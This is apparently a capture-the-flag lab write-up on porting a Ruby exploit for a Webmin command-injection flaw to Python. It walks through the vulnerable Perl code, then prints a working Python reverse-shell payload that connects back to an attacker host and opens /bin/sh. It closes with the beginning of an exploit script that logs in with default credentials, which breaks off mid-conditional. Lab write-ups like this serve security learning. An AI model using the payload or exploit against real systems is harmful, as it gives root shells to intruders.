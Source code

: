 ```  

`if ($in{'type'}) { ... }` checks if the type parameter is supplied in the input. If present, it assigns its value to the variable $type.  

The code continues with other conditional branches and processing steps that are not included in the provided snippet.  

`if (!open(FILE, $p)) { ... }` attempts to open the file specified by the path ($p). If the file cannot be opened (possibly due to Unix permissions), it calls the error_exit function with the error message defined as &text('view_eopen', $p, $!).  
```  

**Summary**  

Before the patch, the app could be vulnerable to invalid input if the PATH_INFO parameter from the URL contained certain characters, such as pipes (`|`), leading/trailing whitespace, or null characters (`\0`), which could potentially be used for malicious purposes. This is an example of improper input validation.

**Payloads**  

In the given exploit scenario targeting Webmin, the most effective program/command to use would depend on the specific vulnerability being exploited and the intended goal. However, based on the provided code snippet, the exploit leverages the ability to execute arbitrary commands with root privileges. Therefore, common choices for the payload command in this case might be `bash` or `perl`, as they are commonly available on Unix-like systems and provide extensive functionality for executing commands and interacting with the system.  

> This output corroberates with the correct THM answer: "system shell"  

## **So we now know our payload needs to be a system shell of sorts**
It can be something simple or complex.  

**Example payload**  
```python  
payload = "python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\""+ lhost + "\"," + lport + "));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])\'"
```  

## **The purpose of this lab is to port the Ruby exploit to Python. Here is the version I came up with.**  

```python  
#!/usr/bin/env python

import requests, string, secrets

def rand():
    alphaNum = string.ascii_letters + string.digits
    randChar = ''.join(secrets.choice(alphaNum) for i in range(5)) 
    return randChar

targetIP = "x.x.x.x"
# So the remote can beam home to the mothership, set localhost and port...
lhost = "x.x.x.x"
lport = "53"

data = {'page' : "%2F", 'user' : "user1", 'pass' : "1user"}
url = "http://" + targetIP + "/session_login.cgi"

r = requests.post(url, data=data, cookies={"testing":"1"}, verify=False, allow_redirects=False)

if r.status_code == 302 and r.cookies["sid"] != None:
```